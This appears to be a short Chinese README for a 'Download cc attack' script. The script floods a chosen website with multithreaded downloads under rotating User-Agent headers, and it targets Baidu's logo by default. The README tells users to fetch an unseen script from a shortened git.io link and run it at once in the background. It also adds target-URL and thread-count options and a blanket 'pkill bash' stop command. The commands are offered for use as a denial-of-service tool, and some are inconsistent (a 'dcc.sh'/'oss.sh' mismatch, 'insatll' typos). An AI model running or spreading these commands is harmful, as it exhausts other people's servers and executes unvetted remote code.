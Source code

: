 ## 多线程刷流量 Download cc attack
  
  会自动更换UA头，多线程下载
 
#### 下载安装:
  
  默认会刷百度logo
``` bash
  wget -O dcc.sh git.io/Jftkm
  bash dcc.sh &
```

&nbsp;

  如果需要改为别的地址可以这样
 
```shell
  wget -O dcc.sh git.io/Jftkm
  bash dcc.sh "https://www.baidu.com" &  #指定url
  bash oss.sh "https://www.baidu.com" 8 & #指定url和8线程
```

&nbsp;
  
#### 查看使用流量（执行此命令起）
```shell
  apt install -y iftop && iftop -i eth0
  yum install -y iftop && iftop -i eth0
```

#### 如果网卡不是eth0可以改一下，看网卡名可以用这条命令

```shell
  apt insatll -y net-tools && ifconfig
  yum insatll -y net-tools && ifconfig
```

#### 结束命令
```shell
  pkill bash && pkill wget
```
